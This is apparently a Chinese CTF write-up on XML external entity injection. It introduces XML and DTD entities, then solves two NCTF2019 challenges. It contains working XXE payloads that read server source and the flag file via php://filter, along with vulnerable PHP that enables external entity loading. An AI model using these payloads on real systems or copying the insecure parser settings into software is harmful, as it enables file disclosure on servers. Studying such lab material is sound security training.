

# XML外部实体注入

[https://zh.wikipedia.org/wiki/XML](https://zh.wikipedia.org/wiki/XML)

XML定义结构,存储信息,传送信息

```xml
<?xml version="1.0"?>
  <小纸条>
    <收件人>大元</收件人>
    <发件人>小张</发件人>
    <主题>问候</主题>
    <具体內容>早啊，饭吃了沒？ </具体內容>
  </小纸条>
```

每个XML文档都由XML声明开始,在前面的代码中的第一行就是XML声明`<?xml version="1.0"?>`

这一行代码会告诉解析器或浏览器这个文件应该按照XML规则进行解析

但是,根元素到底叫`<小纸条>`还是`<小便条>`,则是由[文档类型定义](https://zh.wikipedia.org/wiki/文档类型定义)(DTD)定义的,如果DTD规定根元素必须叫`<小便条>`,那么若写作`<小纸条>`就不符合要求

可以在DTD中定义实体

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
    <!ENTITY a "asdf" >
]>
<test>
    <name>&a;</name>
    <passwd>passwd</passwd>
</test>
```



除了在DTD中使用内部实体外还可以使用外部实体

### [NCTF2019]Fake XML cookbook

在提交用户名和密码是抓包的结果为

```xml
<user><username>admin</username><password>admin</password></user>
```

将提交的结果替换为

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
	<!ENTITY shell SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
]>
<user><username>&shell;</username><password>admin</password></user>
```

即可对外部实体进行引用,从而对`doLogin.php`进行读取

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

对flag进行读取

```xml
<?xml version="1.0"?>
<!DOCTYPE ANY [
	<!ENTITY shell SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
]>
<user><username>&shell;</username><password>admin</password></user>
```

### [NCTF2019]True XML cookbook

使用相同的payload即可读取源代码

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

但是`www`和根目录都没找到flag,看wp说要SSRF,但在buu复现不出来...

